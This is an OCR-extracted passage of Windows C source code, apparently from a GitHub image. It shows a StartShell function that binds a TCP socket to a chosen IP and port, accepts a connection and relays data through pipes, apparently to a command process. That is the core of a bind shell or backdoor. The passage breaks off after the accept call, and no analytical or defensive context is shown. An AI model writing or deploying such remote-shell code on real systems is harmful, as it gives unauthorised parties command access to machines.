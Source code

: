 ```
		{
			fOk = ReadFile(hPipe, szBuf, RECV_BUF_LEN, &dwReaded, NULL);
			if (fOk && dwReaded > 0)
			{
				SndMsg(hSock, szBuf, dwReaded);
			}
			Sleep(50);
		}

	}
 
	return(0);
}
 
BOOL StartShell(const char *pcszIP, UINT uiPort)
{
	BOOL fRet = FALSE;
	SOCKADDR_IN stSockAddr = { 0 };
	SOCKADDR_IN stClntSockAddr = { 0 };
	SOCKET hSock = INVALID_SOCKET;
	SOCKET hClntSock = INVALID_SOCKET;
	HANDLE hProcess = NULL;
	HANDLE hReadPipe0 = NULL, hWritePipe0 = NULL;
	HANDLE hWritePipe1 = NULL, hReadPipe1 = NULL;
	HANDLE hThreadInput = NULL, hThreadOutput = NULL;
	HANDLE hThreads[2] = { 0 };
	STARTUPINFO si = { 0 };
	PROCESS_INFORMATION pi = { 0 };
	SECURITY_ATTRIBUTES sa = { 0 };
 
	int iAddrLen = sizeof(stClntSockAddr);
	int iRet = 0;
	WSADATA wsaData = { 0 };
 
	__try
	{
		WSAStartup(MAKEWORD(2, 2), &wsaData);
 
		hSock = socket(AF_INET, SOCK_STREAM, 0);
		if (INVALID_SOCKET == hSock)
		{
			__leave;
		}
		stSockAddr.sin_addr.S_un.S_addr = inet_addr(pcszIP);
		stSockAddr.sin_port = htons(uiPort);
		stSockAddr.sin_family = AF_INET;
 
		iRet = bind(hSock, (SOCKADDR *)&stSockAddr, sizeof(stSockAddr));
		if (SOCKET_ERROR == iRet)
		{
			__leave;
		}
		iRet = listen(hSock, 5);
		if (SOCKET_ERROR == iRet)
		{
			__leave;
		}
 
		hClntSock = accept(hSock, (SOCKADDR *)&stClntSockAddr, &iAddrLen);
		if (INVALID_SOCKET == hClntSock)
		{
			__leave;
		}
```
